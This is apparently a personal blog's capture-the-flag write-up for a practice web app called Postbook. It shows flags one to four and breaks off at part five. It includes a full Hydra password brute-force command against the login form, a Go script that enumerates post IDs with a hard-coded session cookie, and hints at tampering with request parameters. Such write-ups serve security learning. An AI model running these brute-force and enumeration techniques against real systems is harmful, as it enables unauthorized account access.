 ```yaml
---
date: "2019-05-27"
title: "Postbook"
category: "CTF"
---
```


CTF time !!
Let's find flags.
![alt text](https://media.giphy.com/media/sSmxfWnEVxtWU/giphy.gif)


### Hidden Page ~ 🚩(1/7)
Log in to the app using a newly created account, we can see home page like
![alt text](https://storage.googleapis.com/warrenlee/myBlog/CTF/Postbook/home.jpg)

Clicking two posts below, we can see their URLs
1. http://35.190.155.168/7d9c59055d/index.php?page=view.php&id=3
2. http://35.190.155.168/7d9c59055d/index.php?page=view.php&id=1

Hmm...where is page with id equal to 2 ?
<br />
Then we got the first flag from the hidden page.

### Brute Force Attack Login Form ~ 🚩(2/7)
Let's use <a href="https://github.com/vanhauser-thc/thc-hydra" target="__blank">Hydra</a> to crack password for account "user".

First, by providing random password to username='user', we got the response page
![alt text](https://storage.googleapis.com/warrenlee/myBlog/CTF/Postbook/failed_to_log_in.jpg)

Then, we can use the command as follow to do brute force attack
```
hydra -V -l user -P passlist.txt 35.190.155.168 http-form-post "/7d9c59055d/index.php?page=sign_in.php:username=^USER^&password=^PASS^&submit=Submit:Nothing is logged"
.
-V verbose mode
-l specify username here
-P given password list file path
```

Before running this command, we need to get a password list file (ex: <a href="https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt" target="__blank">File Link</a>)
<br />
Noted that, 'Submit:Nothing is logged' tells Hydra the error message in the response HTML.
![alt text](https://storage.googleapis.com/warrenlee/myBlog/CTF/Postbook/hydra_resp.jpg)

Bingo !! We got the password for 'user' is 'password'. 
<br />
Log in with this credential then we can get the flag.

### Mining Hidden Post ID ~ 🚩(3/7)
This flag was hidden in a post page with very large ID.
<br />
So we need to write a simple program to find the flag.
<br />
Below is a simple go program
```go
package main

import (
	"fmt"
	"io/ioutil"
	"log"
	"net/http"
	"strings"
)

const URL string = "http://34.74.105.127/2e79c1ae35/index.php?page=view.php&id=%d"
const COOKIE string = "id=c81e728d9d4c2f636f067f89cc14862c"
const CONTENT_LENGTH int = 1414

func makeRange(min, max int) []int {
	a := make([]int, max-min+1)
	for i := range a {
		a[i] = min + i
	}
	return a
}

func makeRequest(url string, ch chan<- string) {
	client := &http.Client{}

	// Declare HTTP Method and Url
	req, err := http.NewRequest("GET", url, nil)

	// Set cookie
	req.Header.Set("Cookie", COOKIE)
	resp, err := client.Do(req)
	defer resp.Body.Close()
	// Read response
	data, err := ioutil.ReadAll(resp.Body)
	if err != nil {
		log.Fatalln(err)
	}
	if len(data) > CONTENT_LENGTH {
		ch <- string(data)
	} else {
		ch <- fmt.Sprintf("Not Found at url = %s", url)
	}

}

func main() {
	ids := makeRange(500, 1000)
	ch := make(chan string)
	for _, id := range ids {
		url := fmt.Sprintf(URL, id)
		go makeRequest(url, ch)
	}
	for range ids {
		output := <-ch
		if !strings.Contains(output, "Not Found") {
			fmt.Println(output)
		}
	}
}
```

In this case, once the client visit post with id = <b>945</b>, the flag will show up

### Mess Up Bad Design API, Part I ~ 🚩(4/7)
Now let's try to edit a post by clicking 'edit' and then 'save' buttons.
<br />
We can see a post request was sent from the client side with the URL below.
<b>http://34.74.105.127/2e79c1ae35/index.php?page=edit.php&id=3</b>
<br />
Interestingly, some unnecessary params were attached on the URL (id).
<br />
What if we resend the POST request without specifying id ?

### Mess Up Bad Design API, Part II ~ 🚩(5/7)
Coming Soon...